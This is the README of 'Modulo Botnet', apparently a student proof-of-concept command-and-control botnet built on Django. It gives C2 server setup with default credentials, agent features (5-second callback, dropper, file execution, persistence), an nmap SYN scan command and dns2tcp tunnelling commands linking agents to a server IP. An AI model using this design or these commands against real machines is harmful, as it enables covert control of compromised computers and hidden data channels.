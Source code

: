 <h1 align="center">Modulo Botnet</h1>
<h6 align="center"><i>Simple POC Botnet done by Group 1</i></h6>

<p align="center">
 <img src="https://img.shields.io/badge/last%20updated-July%202020-3d62d1">
 <img src="https://img.shields.io/pypi/pyversions/Django">
 <img src="https://travis-ci.org/mazx4960/modulo-botnet.svg?branch=master">
 <img src="https://github.com/notclement/botnet-enumeration-network/workflows/Django%20CI/badge.svg">
</p>

## Table of contents

* [Warning](#warning)
* [Important directories](#important-directories)
* [Usage](#usage)
* [Features](#features)
* [Supported Plugins](#supported-plugins)
* [Future expansions](#future-expansions)

## Warning
This project is only meant for educational purposes and should not be used for malicious activities! Use at your won risk!

## Important Directories
* apps => server_django/apps (api, authentication, webui)
* modules => server_django/apps/api/modules

## Usage
<b>C2 Server</b>
<br><i>The default username is admin. The default password is password</i>
```commandline
cd server_django
python manage.py migrate # to initialise and migrate database
python manage.py createsuperuser <username> # to create a new superuser (optional)
python manage.py runserver
```

<b>Agent</b>
```commandline
to be completed
```

## Features
<b>C2 Server (webui)</b>
- [x] Login
- [x] Dashboard
    - [x] List of known compromised machines
- [x] Sessions
    - [x] Select target agent(s)
    - [x] Send Instruction
    - [x] Wait and receive output (if necessary)
    - [x] Viewing other sessions
- [x] Executing commands on individual agents
- [x] Style sheets
- [ ] Support for nmap reports
- [ ] Build a network tree that showcases compromised machines

<b>C2 Server (api)</b>
- [x] Job Balancing
- [x] Testing Connectivity with all known Agents
- [x] Sending Instructions
- [x] Receiving Output of Instructions (tagging must be done to identify the 'session' or specific instruction sent, the computer it came from)
- [x] Modules hosting for agents
- [ ] Gathering a location heatmap of all the agents and target (https://ipinfo.io/<ip>)

<b>Agent</b>
- [x] Callback to server (every 5 seconds)
- [x] Dropper (downloads file from C2)
- [x] Execution of files
- [x] Persistency
- [ ] Self-Removal

## Supported Modules
- [x] nmap
```commandline
load module nmap
nmap -sS 192.168.1.1 1-65535
```
- [x] dns_tunnelling
```commandline
# on the agent side
sudo dns2tcpc -f dns2tcpc.conf <server_ip>

# on the server side
sudo dns2tcpd -f dns2tcpd.conf
```

## Future expansions
- [ ] Docker swarm for different protocols like http and dns tunneling
